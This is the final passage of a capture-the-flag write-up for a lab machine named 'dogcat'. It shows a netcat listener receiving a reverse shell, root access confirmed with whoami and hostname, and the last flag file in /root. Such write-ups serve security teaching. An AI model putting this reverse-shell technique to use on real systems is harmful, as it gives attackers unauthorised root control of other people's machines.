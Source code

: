 And it works!

```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.54.41] 54958
bash: cannot set terminal process group (3655): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# whoami
whoami
root
root@dogcat:~# hostname
hostname
dogcat
```

Looking in **/root** shows us **flag4.txt** giving us our final answer:

`wc -c flag4.txt`

```bash
80 flag4.txt
```

<br>

With that we've completed this CTF!

![](images/dogcat13.png)
